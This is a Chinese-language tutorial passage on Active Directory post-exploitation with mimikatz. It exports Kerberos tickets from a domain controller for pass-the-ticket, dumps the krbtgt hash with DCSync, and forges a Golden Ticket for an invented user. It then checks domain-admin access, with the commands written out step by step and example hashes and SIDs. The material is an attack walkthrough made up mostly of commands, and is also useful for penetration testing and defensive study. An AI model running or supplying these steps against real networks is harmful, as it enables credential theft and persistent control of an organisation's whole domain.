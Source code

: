 在我们成功获得域控权限后，就可以导出域控内存中的Ticket，在默认的10个小时以内都可以利用来登录域控

通过mimikatz导出内存中的Ticket，执行：

```
sekurlsa::tickets /export
```
保存成文件，一共导出如下文件，找个像这样的：

```
xxx@krbtgt-TEST.LOCAL.kirbi
```

在域普通用户的主机进行导入：

```
mimikatz "kerberos::ptt C:\test\xxx@krbtgt-TEST.LOCAL.kirbi"
```

查看是否有域控权限，
```
klist
dir \\xxxx\c$
```
##### 金票据

每个用户的Ticket都是由krbtgt的密码Hash来生成的，那么，我们如果拿到了krbtgt的密码Hash，不就可以随意伪造Ticket了吗？

实际上只要拿到了域控权限，在上面就可以很容易的获得krbtgt的Hash值，再通过mimikatz即可生成任意用户任何权限的Ticket，也就是Golden Ticket。

域控执行下面的命令，生成mimikatz.log记录输出，使用log输出是为了方便复制Hash值：

```
mimikatz log "lsadump::dcsync /domain:test.local /user:krbtgt"
```
找到如下的信息：
```
/domain：test.local
/sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f
```
生成Golden Ticket,伪造的用户设置为god,执行下面的命令，生成文件gold.kirbi:

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 
/aes256:af71a24ea463446f9b4c645e1bfe1e0f1c70c7d785df10acf008106a055e682f /user:god 
/ticket:gold.kirbi"
```

注意，生成Golden Ticket不仅可以使用aes256，也可用krbtgt的NTLM hash，可以用mimikatz "lsadump::lsa /patch"导出。

导入Golden Ticket：

```
mimikatz# kerberos::ptt c:\test\gold.kirbi
```
检验是否成功获得域控权限：
```
c:>klist
c:>dir \\xxxx\c$
```
注意：
这种方式导入的Ticket默认在20分钟以内生效，当然，如果过期了，再次ptt导入Golden Ticket就好。可以伪造任意用户，即使其不存在。可以伪造任意用户，即使其不存在。
